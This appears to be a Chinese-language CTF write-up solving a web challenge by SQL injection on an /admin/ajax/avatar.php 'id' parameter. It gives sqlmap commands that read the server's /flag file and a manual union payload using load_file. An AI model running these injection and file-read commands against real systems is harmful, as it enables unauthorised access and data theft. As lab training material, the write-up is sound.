









<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->




访问网站发现提示404，



尝试访问所给路径/admin/ajax/avatar.php，依然没有任何显示，访问上一路径


访问其他文件得到报错



拿到参数id，sqlmap进行尝试

``` Shell
sqlmap -u "http://eci-2ze1ldkkzy8hjpn1egve.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1"
```




得到数据库类型，进行读flag

``` Shell
sqlmap -u "http://eci 2ze1ldkkzy8hjpn1egve.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1" -D "mysql" --file-read "/flag"
```





手工注入
查看avatar.php内容



尝试注入点?id=1和?id=1' ，发现在id=1时源码发生变化



再次尝试id=1 and 1=1 ，判断为字符型



sql报错注入，使id语法错误，回显flag
?id=-1 union (select load_file('/flag'))#



同样拿到flag


